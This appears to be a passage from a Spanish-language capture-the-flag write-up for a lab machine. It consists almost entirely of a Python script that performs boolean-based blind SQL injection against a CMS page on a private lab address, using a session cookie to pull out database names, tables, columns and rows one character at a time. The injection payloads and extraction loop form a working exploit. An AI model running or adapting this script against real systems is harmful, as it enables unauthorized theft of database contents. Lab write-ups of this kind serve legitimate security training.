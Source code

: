 Gracias al siguiente script de python podremos sacar toda la información de la base de datos.

```python
#!/usr/bin/python3

import requests,string
from pwn import *

main_url = "http://192.168.18.86/imfadministrator/cms.php"
headers = {
    'PHPSESSID' : "ut7nt4o3il099fuql6ou3sgc97"
}
characters = string.printable

baseactual = "home' or substring(database(),%d,1)='%s"
todaslasbases = "home' or substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s"
tablas = "home' or substring((select group_concat(table_name) from information_schema.tables where table_schema = 'admin'),%d,1)='%s"
columnas = "home' or substring((select group_concat(column_name) from information_schema.columns where table_schema = 'admin' and table_name = 'pages'),%d,1)='%s"
filas = "home' or substring((select group_concat(pagename) from pages),%d,1)='%s"


def makeSQLI():

    cadena = ""

    p1 = log.progress("Inyección SQL")
    p1.status("Iniciado Inyección SQL")

    p2 = log.progress("Información extraida: ")

    for position in range(1,50):
        for character in characters:

            values = {
                'pagename' : f"{filas}" % (position, character)
            }


            r = requests.get(main_url, params=values, cookies=headers)

            if "Under Construction." in r.text:
                cadena += character
                p2.status(cadena)
                break



if __name__ == '__main__':

    makeSQLI()
```
